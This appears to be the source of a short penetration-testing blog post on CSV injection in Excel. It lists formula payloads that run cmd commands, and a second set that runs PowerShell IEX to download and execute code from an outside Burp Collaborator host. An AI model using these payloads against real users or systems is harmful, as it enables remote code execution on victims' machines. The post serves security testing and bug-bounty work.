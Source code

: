 ```yaml
---
layout: post
title:  "CSV Injection"
description: ""
date:   2016-12-03 18:04:58 +0100
categories: [CSV, Attack vectors, Test files, Mental notes]
---
```


### Introduction

CSV injection is the technique to leverage the fact that Excel executes the formulas embedded in a [CSV][wiki-csv]. The technique has been [covered][contextis] by plenty of [others][zsec-dangers-mitigation], and even used successfully in [bug][hackerone-hackerone] [bounties][zsec-pornhub], so I will not repeat myself.

### Test files

The following is the simplest test file for testing all the vulnerable characters:

```
=cmd|' /C echo = && pause'!A0,CSV injection
@SUM(1+1)*cmd|' /C echo @ && pause'!A0,CSV injection
+2+3+cmd|' /C echo + && pause'!A0,CSV injection
-2+3+cmd|' /C echo - && pause'!A0,CSV injection
```

Pro tip, use Burp collaborator manual client with a combination of PowerShell and wget to verify if the payload gets executed on the server:

```
=cmd|' /C powershell IEX(wget <uniqueid>.collabserver.com)'!A0,CSV injection
@SUM(1+1)*cmd|' /C powershell IEX(wget <uniqueid>.collabserver.com)'!A0,CSV injection
+2+3+cmd|' /C powershell IEX(wget <uniqueid>.collabserver.com)'!A0,CSV injection
-2+3+cmd|' /C powershell IEX(wget <uniqueid>.collabserver.com)'!A0,CSV injection
```

### Likelihood

As always, this requires that the eight planets is aligned to work. First of, the injection has to be echoed in the CSV file unencoded, and then the victim has to download the file and open it in Excel. Excel gives the user multiple warning messages before the code gets executed, and of course the success heavily relies on the payload being executed.

[//]: ### Impact

[//]: ### Remediation

### References
* [Wikipedia: CSV][wiki-csv]
* [Context: Comma Separated Vulnerabilities][contextis]
* [OWASP: CSV Excel Macro Injection][owasp]
* [ZeroSec: CSV Injection Revisited - Making Things More Dangerous(and fun)][zsec-dangers-mitigation]
* [ZeroSec: CSV Injection -> Meterpreter on Pornhub][zsec-pornhub]
* [hackeone: CSV Injection with the CVS export feature][hackerone-hackerone]

[wiki-csv]: https://en.wikipedia.org/wiki/Comma-separated_values
[owasp]: https://www.owasp.org/index.php/CSV_Excel_Macro_Injection
[contextis]: https://www.contextis.com/resources/blog/comma-separated-vulnerabilities/
[zsec-dangers-mitigation]: http://blog.zsec.uk/csv-dangers-mitigations/
[zsec-pornhub]: http://blog.zsec.uk/csvhub/
[hackerone-hackerone]: https://hackerone.com/reports/72785
[hackerone-pornhub]: https://hackerone.com/reports/146593
[xpnsec]: https://xpnsec.tumblr.com/post/133298850231/from-csv-to-meterpreter
